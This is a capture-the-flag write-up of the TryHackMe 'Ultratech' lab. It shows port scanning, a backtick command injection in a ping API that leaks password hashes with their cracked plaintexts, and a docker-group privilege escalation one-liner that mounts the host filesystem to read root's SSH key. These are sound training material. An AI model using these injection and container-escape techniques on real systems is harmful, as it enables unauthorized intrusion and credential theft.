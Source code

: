 ```yaml
---
layout: post
title: "Ultratech| THM "
date: 2021-11-20 17:17:00 -0000
categories: CTF THM
---
```


<h2>Executive Summary</h2>

An api endpoint that can be tricked into allowing code execution allows us to strip creds from the server and then log onto the server. Once on the server, a user left in the docker group allows us to gain root.

<h2>Technical Details</h2>

<h2>Enumeration</h2>

Lets start with the classic nmap: 

nmap 10.10.124.243  
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-13 06:32 EST  
Nmap scan report for 10.10.124.243  
Host is up (0.090s latency).  
Not shown: 997 closed tcp ports (conn-refused)  
PORT     STATE SERVICE  
21/tcp   open  ftp  
22/tcp   open  ssh  
8081/tcp open  blackice-icecap  
  http    Node.js Express framework  
|_http-cors: HEAD GET POST PUT DELETE PATCH  
|_http-title: Site doesn't have a title (text/html; charset=utf-8).  
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)  
|_http-server-header: Apache/2.4.29 (Ubuntu)  
  
Nmap done: 1 IP address (1 host up) scanned in 2.45 seconds   
  
8081 is an API with the following endpoints:   
auth, ping Auth and Ping  
  
So, we have a few interesting things standing out here. First, http running on a non-standard port. Some node.js running on 8081. Lets keep enumerating. Gobuster is our next stop.  

31331 is running a nice robots.txt with the following url hidden: utech_sitemap.txt  
this exposes the following endpoints  
/index.html /what.html   
/partners.html -> login form   

When we try to login the login form calls back to the auth api. Maybe this is vuln to a sqlmap/sql injection?  
I tried some various regular sql injections and then running sqlmap on everything on 8081. Nothing worked!  
So, the auth api seems to be strapped down fairly well. The ping api will let you run anything as long as we can figure out how to trick it. The source code is available to be looked at /js/api.js  
It keeps breaking so now we need to figure out how to exploit that. It is filtering on ; and I can't seem to get it to work. After a lot of different attempts, it turned out that you needed to escape the command with back ticks.  
Not sure why this worked! I will do some research on this. 

`ls` gets us the name of the file present in that api directory. Then we can use `cat` to read that file and we get the following hashes:  
r00t:      f357a0c52799563c7c7b76c1e7543a32)  - n100906 - this works for all logins, nice!  
admin:   0d0ea5111e3c1def594c1684e3b9be84 - mrsheafy  

<h2>Initial Foothold</h2>  

We can use the cracked hash to ssh onto the server. After looking in the normal places, I couldn't find anything. So, I checked the id of the user and we are in the docker group. Lets see if we can run anything interesting: find /home -group docker - So we can run docker commands. After some googling, it seems to be that this is a valid priv esc avenue. 

<h2>Priv Esc </h2>  

Lets look up gtfo bins and see if there is an exploit. There is!  

docker run -v /:/mnt --rm -it alpine chroot /mnt sh  

However, when we run this command we get an error that we cannot find the alpine image. Lets take a look at what docker images there are:  

docker images  
  
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE  
bash                latest              495d6437fc1e        2 years ago         15.8MB  
  
ok! So no alpine, lets replace it with bash.  

Boom! were in.  

Then, just navigate to the .ssh and read that key. Make sure you can count to 9.  


